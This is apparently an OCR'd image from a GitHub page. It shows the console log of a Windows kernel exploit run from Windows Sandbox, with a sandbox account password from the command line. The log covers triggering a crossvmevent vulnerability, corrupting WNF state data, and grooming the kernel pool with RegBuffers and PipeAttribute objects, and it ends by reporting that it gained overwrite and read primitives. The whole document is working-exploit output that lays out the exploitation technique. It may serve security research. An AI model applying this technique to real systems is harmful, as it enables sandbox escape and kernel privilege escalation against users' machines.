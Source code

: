 ```
[*] commandline = C:\Windows\system32\WindowsSandboxClient.exe <ContainerId>19a1ef14-ee35-47d8-8bdb-cf4c86272272</ContainerId><AccountUser>WDAGUtilityAccount</AccountUser><AccountPassword>66387310-a27d-4a59-a688-3ab018388c9e</AccountPassword><AudioInputEnabled>true</AudioInputEnabled><ClipboardRedirectionEnabled>true</ClipboardRedirectionEnabled><RebootSupported>true</RebootSupported><SmartCardRedirectionEnabled>false</SmartCardRedirectionEnabled><FullScreenMode>false</FullScreenMode><TargetDisplay>0</TargetDisplay>
[*] extracted guid = 19a1ef14-ee35-47d8-8bdb-cf4c86272272
[*] s_guid = 19a1ef14-ee35-47d8-8bdb-cf4c86272272
Created GUID
extracted guid
0x000000: 14 ef a1 19 35 ee d8 47 8b db cf 4c 86 27 22 72  ....5..G...L.'"r


guid
0x000000: 14 ef a1 19 35 ee d8 47 8b db cf 4c 86 27 22 72  ....5..G...L.'"r


Triggering vuln creating crossvmevent...
max corrupted WNF
state: a18d294541c64e6d val: 0  dataSize: 10040
calling NtqueryWnfStateData on max_corrupted with max_corrupted->state a18d2945a18d2945 and datasize10040
buffer content
[+] found WNF to be freed and replaced with RegBuffers
offset 30
[+] found WNF to be freed and replaced with PipeAttribute
offset2 80
updating regBuffersControllerWNF
calling NtUpdateWnfStateData on tokenReaderWNF->state a18d2945a18d2945 and datasize10040
calling NtUpdateWnfStateData returned successfully
[*] retrieving WNF with content 0x4343434343434343
[*] retrieving WNF with content 0x4444444444444444
searching in statenames2
found corrupted WNF: a18d514541c64e6dval: 4343434343434343
found corrupted WNF: a18d614541c64e6dval: 4444444444444444
found1 1 found2 1
found1 1 found2 1
found1 1 found2 1
0x000000: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x000010: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x000020: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x000030: 00 00 05 0b 49 72 52 42 64 b9 76 d3 e4 ff d1 c6  ....IrRBd.v.....
0x000040: a0 a1 b1 f1 09 e3 ff ff 00 00 00 00 00 00 00 00  ................
0x000050: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x000060: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x000070: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x000080: 00 00 05 03 4e 70 41 74 00 00 00 00 00 00 00 00  ....NpAt........
0x000090: d0 01 2b 47 0a d1 ff ff d0 01 2b 47 0a d1 ff ff  ..+G......+G....
0x0000a0: 38 81 2a 4d 0a d1 ff ff 16 00 00 00 00 00 00 00  8.*M............
0x0000b0: 3a 81 2a 4d 0a d1 ff ff 5a 00 41 41 41 41 41 41  :.*M....Z.AAAAAA
0x0000c0: 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0x0000d0: 00 00 05 03 57 6e 66 20 42 42 42 42 42 42 42 42  ....Wnf BBBBBBBB
0x0000e0: 00 00 00 00 50 ff 00 00 50 ff 00 00 01 00 00 00  ....P...P.......
0x0000f0: 03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x000100: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x000110: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x000120: 00 00 05 03 57 6e 66 20 42 42 42 42 42 42 42 42  ....Wnf BBBBBBBB
0x000130: 00 00 00 00 00 ff 00 00 00 ff 00 00 01 00 00 00  ................
0x000140: 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................


[+] regBuffers found and can be overwritten
[+] pipeAttribute found and can be read
```